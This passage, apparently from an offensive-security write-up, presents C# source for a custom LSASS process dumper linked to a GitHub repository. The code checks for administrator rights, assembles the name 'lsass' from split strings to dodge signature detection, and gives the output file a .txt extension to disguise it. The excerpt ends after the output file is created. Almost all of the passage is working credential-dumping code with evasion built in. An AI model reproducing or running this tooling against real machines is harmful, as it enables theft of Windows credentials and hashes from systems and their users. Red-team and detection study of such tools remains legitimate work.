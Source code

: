 The resulting script (which can be found also in [this Github repository](https://github.com/ricardojoserf/lsass-dumper-csharp/blob/main/Program.cs)) is:

```c
using System;
using System.IO;
using System.Diagnostics;
using System.Security.Principal;
using System.Runtime.InteropServices;


namespace CustomDumper
{
    class Program
    {
        [DllImport("Dbghelp.dll")] static extern bool MiniDumpWriteDump(IntPtr hProcess, int ProcessId, IntPtr hFile, int DumpType, IntPtr ExceptionParam, IntPtr UserStreamParam, IntPtr CallbackParam);
        [DllImport("kernel32.dll")] static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);
        static readonly IntPtr INVALID_HANDLE_VALUE = new IntPtr(-1);


        static int getProcessPid() {
            string str1 = "l";
            string str3 = "s";
            string str5 = "a";
            string processname_str = str1 + str3 + str5 + str3 + str3;
            int processPID = Process.GetProcessesByName(processname_str)[0].Id;
            return processPID;
        }


        static void Main(string[] args)
        {
            // Check we are running an elevated process
            if (WindowsIdentity.GetCurrent().Owner
                  .IsWellKnown(WellKnownSidType.BuiltinAdministratorsSid) == false)
            {
                Console.WriteLine("[-] Error: Execute with administrative privileges.");
                return;
            }

            //Get process PID
            int processPID = getProcessPid();
            Console.WriteLine("[+] Process PID: " + processPID);

            // Generate the file name or get it from the input arguments
            String filename;
            if (args == null || args.Length == 0)
            {
                String now = DateTime.Now.ToString("dd-MM-yy-HHmm");
                String extension = ".txt";
                filename = Directory.GetCurrentDirectory() + "\\" + Environment.MachineName + "_" + now + extension;
            }
            else
            {
                filename = args[0];
            }


            // Create output file
            FileStream output_file = new FileStream(filename, FileMode.Create);
```